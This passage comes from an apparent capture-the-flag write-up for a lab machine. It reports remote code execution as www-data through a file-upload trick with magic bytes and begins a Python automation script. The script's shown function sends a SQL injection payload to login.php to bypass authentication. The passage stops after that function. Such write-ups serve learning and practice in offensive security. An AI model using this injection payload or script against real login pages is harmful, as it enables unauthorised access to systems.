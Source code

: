 <img src="/assets/img/magic/Untitled 13.png" alt="Untitled 13.png" style="width:800px;">

Successfully achieved RCE as www-data! 

<img src="/assets/img/magic/Untitled 14.png" alt="Untitled 14.png" style="width:800px;">

**Note**: According to my CPTS notes, this is caused by a misconfiguration on the web server and reverse double extensions don’t always work.

Created a pretty cool script to automate this. It’s very simple but I enjoyed discovering that the PHP string has to be sent AS BYTES after the magic bytes. Otherwise it won’t work!

```python
import argparse
import random
import requests
import string
import sys
import urllib

def bypass_auth(target):

    # sql injection to bypass auth
    s = requests.Session()
    url = f'http://{target}/login.php'
    headers = {
        'Content-Type': 'application/x-www-form-urlencoded'
    }
    data = '''username=a'+or+1337>0+%23&password=admin'''

    response = s.post(url, headers=headers, data=data, allow_redirects=False)

    if response.status_code == 302:

        print("\n[+] Bypassed the authentication!")
        return s
    
```